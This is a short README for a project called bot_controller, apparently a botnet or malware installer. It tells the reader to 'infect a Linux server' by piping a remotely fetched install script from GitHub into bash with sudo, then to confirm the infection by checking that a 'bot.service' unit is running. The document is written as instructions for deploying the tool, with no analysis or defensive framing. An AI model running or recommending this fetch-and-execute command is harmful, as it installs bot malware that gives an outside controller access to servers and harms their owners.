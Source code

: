 # bot_controller

## Installation
To infect a Linux server, run the following installation command.
```
curl -sL https://raw.githubusercontent.com/MaciaKing/bot_controller/main/installation.sh | bash
```
Note: You will need to run this command with sudo permissions. Make sure you have the appropriate privileges.

To verify that the infection was successful, use the following command and check that it displays "running".
```
systemctl status bot.service
```
